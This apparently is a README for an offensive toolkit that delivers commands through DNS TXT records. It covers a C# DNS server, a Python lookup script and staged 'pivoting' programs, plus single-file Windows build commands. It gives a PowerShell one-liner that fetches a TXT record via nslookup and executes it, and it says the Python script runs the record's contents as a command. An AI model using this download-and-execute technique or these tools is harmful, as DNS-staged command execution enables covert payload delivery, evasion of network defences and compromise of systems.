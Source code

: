 ## DNS-Server.cs ##
- Install-Package ARSoft.Tools.Net (NuGet)
- Execute: "powershell . (nslookup -q=txt example.com 127.0.0.1)[-1]"\
  The locahohost IP has to be given to differentiate between the "real" domain and the locally running one.

-- Build an executable from the Developer Console within Visual studio

https://learn.microsoft.com/en-us/dotnet/core/deploying/single-file/overview?tabs=cli
- Build:
  <code>
  C:\Users\Noone\Desktop\app\ConsoleApp2>dotnet publish -c Release -r win-x64 --self-contained true -p:PublishSingleFile=true -p:PublishReadyToRun=true -p:PublishTrimmed=true -p:PublishDir=.\publish --force
  </code>
- Build standalone:
  <code>
  dotnet publish -c Release -r win-x64 --self-contained true -p:PublishSingleFile=true -p:PublishReadyToRun=true -p:PublishTrimmed=true -p:IncludeNativeLibrariesForSelfExtract=true -p:PublishDir=.\publish --force
  </code>

## nshookup.py (needs dnspython) ##
- nshookup.py:\
  Python implemetation of nslookup. Only works with one TXT entry.
  Gets the entry and executes the content between the two "" as command.
  Command: python nshookup.py domain.com

- nshookup_1.py:\
  Hardcoded domain:
  Command: python nshookup.py

## pivoting.cs ##
- pivoting_1.cs:\
  No checks, just go for it
- pivoting_2.cs:\
  Checks if at least a part of a certain string is present before executing the first step
- pivoting_3.cs:\
  Defines the string as mandatory to execute the first step
